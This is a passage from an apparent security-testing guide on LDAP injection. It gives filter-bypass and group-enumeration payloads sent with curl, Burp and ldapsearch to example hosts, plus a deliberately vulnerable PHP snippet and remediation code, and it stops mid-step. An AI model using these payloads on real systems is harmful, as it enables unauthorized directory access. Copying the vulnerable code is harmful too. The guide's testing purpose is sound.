 ### 5. Test for LDAP Filter Bypass

**Objective**: Verify if LDAP query filters can be bypassed.

**Steps**:
1. Inject bypass payloads:
   - Test: `?query=admin)(|(cn=admin)(cn=user))`
   - Use cURL:
     ```bash
     curl -i "http://example.com/search?query=admin)(|(cn=admin)(cn=user))"
     ```
2. Check responses:
   - Look for unauthorized data or query success.
3. Test encoded payloads:
   - Try: `?query=%2a)(uid=%2a`.
4. Test OR conditions:
   - Try: `*)(|(uid=admin))`.
5. Use ldapsearch to confirm:
   ```bash
   ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(|(cn=admin)(cn=user))"
   ```

**Example Vulnerable Code (PHP)**:
```php
$filter = "(cn=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: `?query=admin)(|(cn=admin)(cn=user))`
Result: Accesses unauthorized data.

**Example Secure Code (PHP)**:
```php
$query = preg_replace('/[^a-zA-Z0-9]/', '', $query);
if (empty($query)) die("Invalid input");
$filter = "(cn=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: No access.

**Remediation**:
- Reject special characters:
  ```php
  if (preg_match('/[*\(\)|]/', $query)) die("Invalid input");
  ```
- Use strict query templates:
  ```php
  $filter = "(cn={$clean_query})";
  ```

**Tip**: Save bypass payloads and responses in a report.

### 6. Test for Group Membership Enumeration

**Objective**: Check if LDAP injection can extract group membership information.

**Steps**:
1. Identify inputs used in LDAP queries (e.g., search or profile endpoints).
2. Inject group membership payloads:
   - Use Burp:
     ```http
     GET /search?query=*)(memberOf=cn=admins,dc=example,dc=com HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/search?query=*)(memberOf=cn=admins,dc=example,dc=com"
     ```
3. Check responses:
